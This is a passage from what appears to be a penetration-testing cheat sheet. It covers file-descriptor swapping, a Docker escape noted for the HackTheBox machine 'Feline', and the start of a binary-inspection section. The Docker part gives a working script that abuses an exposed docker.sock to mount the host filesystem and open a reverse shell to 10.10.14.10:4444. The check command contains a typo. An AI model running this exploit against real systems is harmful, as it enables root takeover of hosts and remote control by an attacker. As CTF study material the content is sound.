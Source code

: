 2. Redirect file descriptor 1 to file descriptor 2. If we wouldn't have saved the file descriptor in 3 we would lose the target.

3. Redirect file descriptor 2 to file descriptor 3. Now file descriptors one and two are switched.

Now if the program prints something to the file descriptor 1, it will be printed to the file descriptor 2 and vice versa.

* * *

## **DOCKER PRIVESC **[FELINE](https://www.hackthebox.eu/home/machines/profile/274)

https://dejandayoff.com/the-danger-of-exposing-docker.sock/
https://dreamlab.net/en/blog/post/abusing-dockersock-exposure/
https://cert.litnet.lt/2016/11/owning-system-through-an-exposed-docker-engine/

If we are inside a docker, then we can try to escape via different ways.

### DOCKER SOCK EXPOSED

**Check if it is exposed **

curl -s --unisx-socket /var/run/docker.sock http://localhost/images/json

**Exploit localy**

- Create a new docker
- Execute a command when the docker is started

/* Exploit.sh */

#!/bin/bash

cmd="[\"/bin/sh\",\"-c\",\"chroot /tmp sh -c \\\"bash -c 'bash -i >& /dev/tcp/10.10.14.10/4444 0>&1'\\\"\"]"

curl -s -X POST --unix-socket /var/run/docker.sock -d "{\"Image\":\"sandbox\",\"cmd\":$cmd,\"Binds\": [\"/:/tmp:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create?name=ghost1_root

curl -s -X POST --unix-socket /var/run/docker.sock "http://localhost/containers/ghost1_root/start"

* * *

## **BINARIES TOOLS**

If a program tries to execute another program, the name of that program is likely embedded in the executable file as a string. We can run strings on the executable file to find strings of characters.

We can also use strace to see how the program is executing. Another program called ltrace may also be of use.

### STRINGS

strings /path/to/file

### LTRACE
